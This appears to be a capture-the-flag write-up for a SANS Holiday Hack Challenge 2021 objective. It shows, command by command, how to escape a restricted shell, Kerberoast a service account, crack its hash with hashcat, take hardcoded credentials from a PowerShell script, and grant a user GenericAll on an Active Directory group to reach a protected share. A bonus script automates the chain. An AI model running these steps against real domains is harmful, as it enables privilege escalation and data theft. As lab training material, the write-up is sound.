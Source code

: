 # Objective 8: Kerberoasting on an Open Fire
**Location: Staging**
**Elf: Jingle Ringford**
**Hints provided by Eve Snowshoes after completion of [HoHo ... No](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md)**

The objective to obtain a secret research document.
In order to get an account in the ELFU AD domain, a registration on https://register.elfu.org is required.
After that an individual username and password is provided which can be used to logon to grades.elfu.org using SSH on port 2222.

### Escaping Application
After the SSH login an application is automatically started.
It is possible to escape this application by sending an EOF (CTRL-D).

### Escaping Python Shell
After this a Python shell is displayed.
In order to escape this `os.system.("bash")` has to be submitted in order to get to a normal Unix shell.

### Reconnaissance
An nmap scan of the network 10.128.0.0/22 two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares `elfu_svc_shr` and `research_dep`.


### Pulling data from AD
Next the tool `ldapdomaindump` can be used in order to get an idea of the user<->group<->permission structure:
```
ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
```
This can be done manually or using Bloodhound.
Bloodhound also reveals that the user `elfu_svc` is Kerberoastable.

The password hash for this Kerberoastable user can be obtained by running
```
GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
```

### Cracking the Password
We follow the hints and prepare the password cracking as follows:
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:
```
./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
```
In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:
```
curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```
Equipped with these tools, we can let Hashcat crack the password:
```
hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
```

Hashcat finds the password for `elfu_svc` to be `Snow2021!`.

### Access to elfu_svc_shr
With this information we can get access to the elfu_svc_shr file share in 10.128.3.30:
```
smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
```
On this share are several Powershell scripts. One of them, `GetProcessInfo.ps1` holds credentials for the user `remote_elf`:
```
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
```

### Getting into group Research Department
With the `remote_elf` credential snippet from the script, we can grant our windows domain user the `GenericAll` permissions for the group Research Department:
```
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $propGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
  $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
  $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
  $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
  $secOptions = $domainDirEntry.get_Options()
  $secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
  $domainDirEntry.RefreshCache()
  $domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
and add then our user to this group:
```
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $password = "{password}"
  $domainDirEntry = New-Object   System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
  $user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
  $sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
  $b=New-Object byte[] $sid.BinaryLength
  $sid.GetBinaryForm($b,0)
  $hexSID=[BitConverter]::ToString($b).Replace('-','')
  $domainDirEntry.Add("LDAP://<SID=$hexSID>")
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
### Access to research_dep share
After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:
```
smbclient '\\10.128.3.30\research_dep'
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
```

The [PDF document](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf) lists **Kindness** as first secret ingredient for a wonderful holiday season.

---
### Bonus: Automation - Kerberoboting
This whole process was automated in an `expect` [script](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/kerberoboting) named `kerberoboting`, so that you can enjoy a brew whilst your computer does the work.
It just requires you to register at https://register.elfu.org, have `hashcat` installed in the PATH and a working CeWL in the local directory:
```
joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using <EOF>
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\> Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine

\#
\# Have fun and explore more
\#

jsfdgdsjjl@grades:~$ 
```

You can see `kerberoboting` in action here: https://asciinema.org/a/458522

**Achievement: Kerberoasting on an Open Fire**
